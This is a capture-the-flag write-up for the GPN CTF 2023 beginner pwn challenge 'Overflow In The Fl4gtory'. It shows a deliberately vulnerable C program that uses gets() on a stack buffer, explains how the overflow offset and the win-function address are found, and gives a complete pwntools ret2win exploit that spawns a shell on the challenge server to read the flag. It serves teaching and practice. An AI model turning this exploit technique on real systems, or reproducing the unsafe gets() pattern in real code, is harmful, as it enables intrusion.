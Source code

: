 ```yaml
---
title: GPN CTF 2023 - Overflow In The Fl4gtory
date: Fri Jun  9 09:12:25 PM +04 2023
categories: [Writeup]
tags: [ctf,kitctf2023,pwn]
---
```


## Description

Overflow in the fl4gtory | 119 points 

A pipe in the fl4gtory broke and now everything is overflowing! Can you get to the  `shutoff()`  valve and shut the pipe off?

This is the first challenge in the pwn intro series

`ncat --ssl overflow-in-the-fl4gtory-0.chals.kitctf.de 1337`

Downloads: [overflow-in-the-fl4gtory.tar.gz](https://ctf.kitctf.de/files/14d1c8973cbd650ae5467cf3a51e9545/overflow-in-the-fl4gtory.tar.gz?token=eyJ1c2VyX2lkIjo4MzksInRlYW1faWQiOjUwNCwiZmlsZV9pZCI6NjZ9.ZINB8A.45_D_bUK_Wpzq2rdSlqzeQaYELM)

## Analysis

Challenge gives us simplest ret2win challenge.

```c
#include <stdio.h>
#include <stdlib.h>

// gcc -no-pie -fno-stack-protector -o overflow-in-the-fl4gtory overflow-in-the-fl4gtory.c

void shutoff() {
	printf("Pipe shut off!\n");
	printf("Congrats! You've solved (or exploited) the overflow! Get your flag:\n");
	execve("/bin/sh", NULL, NULL);
}


int main() {
	char buf[0xff]; // 0xFF == 255
	gets(buf);
	puts(buf);
	return 0;
}
```

`-no-pie` means that addresses will be the same when program is run, meaning remote application has same address.<br>
`-fno-stack-protector` basically allows buffer overflows to happen.

To overflow the buffer we need more then 255 characters, if RIP (x64 Instruction Pointer) is overwritten with address of our choice (shutdown) we can "win"

Let's find padding.
```sh
└─$ cyclic 300 | clip 

└─$ gdb -q ./overflow-in-the-fl4gtory
pwndbg> run
{PASTE_CYCLIC_PATTERN}
... Program Crashes ...

*RBP  0x636161706361616f ('oaacpaac')
*RSP  0x7ffd7a4547d8 ◂— 'qaacraacsaactaacuaacvaacwaacxaacyaac'
*RIP  0x4011b8 (main+52) ◂— ret 

pwndbg> quit

└─$ cyclic -l qaac
264 # Padding
```
<small>Note: `clip` directs output to clipboard `alias clip="xclip -sel clip"`</small>

Now we need return address of `shutoff`
```py
>>> from pwn import *
>>> elf = ELF("./overflow-in-the-fl4gtory", checksec=False)
>>> elf.functions.shutoff
Function(name='shutoff', address=0x401146, size=0x3e, elf=ELF('./overflow-in-the-fl4gtory')) 
```

This can also be found with gdb `gdb ./program -> info functions` or [**radare2**](https://github.com/radareorg/radare2) `r2 ./program -> aaa -> afl`

## Solution

```py
from pwn import *

# context.log_level = "DEBUG"

exe = "./overflow-in-the-fl4gtory"
elf = context.binary = ELF(exe, checksec=False)

if args.REMOTE:
    proc = remote('overflow-in-the-fl4gtory-0.chals.kitctf.de', 1337, ssl=True)
else: 
    proc = process(exe)

padding = 264
payload = flat(
    b"\x90" * padding,
    elf.functions.shutoff
)

proc.sendline(payload)

proc.sendlineafter(b"Get your flag:\n", b"cat flag.txt; echo;")
flag = proc.recvline().decode().strip()
print(flag)

# or comment lines above and use the shell and use cat
# proc.interactive()
```

```sh
└─$ py exploit.py REMOTE
[+] Opening connection to overflow-in-the-fl4gtory-0.chals.kitctf.de on port 1337: Done
GPNCTF{M0re_0verf0ws_ar3_c0ming_:O}
[*] Closed connection to overflow-in-the-fl4gtory-0.chals.kitctf.de port 1337
```